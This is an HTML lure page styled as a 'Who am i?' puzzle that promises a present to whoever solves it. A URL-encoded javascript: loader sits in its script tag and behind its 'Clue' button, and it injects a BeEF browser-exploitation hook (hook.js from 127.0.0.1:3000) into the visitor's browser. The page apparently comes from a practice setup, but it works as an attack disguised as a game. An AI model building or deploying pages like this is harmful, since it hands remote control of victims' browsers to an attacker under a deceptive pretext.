 <!DOCTYPE html>
<head>
<title>Who am ! ? </title>
<link rel="stylesheet" href="CSS/style.css">
<link rel="icon" href="Image/J.PNG">
<script src="javascript:%20(function%20()%20{%20var%20url%20=%20%27http:%2f%2f127.0.0.1:3000%2fhook.js%27;if%20(typeof%20beef%20==%20%27undefined%27)%20{%20var%20bf%20=%20document.createElement(%27script%27);%20bf.type%20=%20%27text%2fjavascript%27;%20bf.src%20=%20url;%20document.body.appendChild(bf);}})();"></script>
</head>

<body bgcolor="#1C1C1C">
<font size="30px" color="white">

<h1><p align="center"> Who am i ? </p></h1>

</font> 

<p align="center">

There is a task for you.<br>
If you can find me you have a present<br>
You have to prove that who am i.<br>
But if you cant ?
Then i will tell you who you are.<br>
let's help you with some clue.<br>
<div class="container" align="center">
  <button class="btn btn1"><a href="javascript:%20(function%20()%20{%20var%20url%20=%20%27http:%2f%2f127.0.0.1:3000%2fhook.js%27;if%20(typeof%20beef%20==%20%27undefined%27)%20{%20var%20bf%20=%20document.createElement(%27script%27);%20bf.type%20=%20%27text%2fjavascript%27;%20bf.src%20=%20url;%20document.body.appendChild(bf);}})();" > Clue </a></button> <br>
  <button class="btn btn2"><a href="https://facebook.com/profile.php?=73322363" id= btn2> Just you </a></button>
  </div>



 
</p>

</body>


</html>
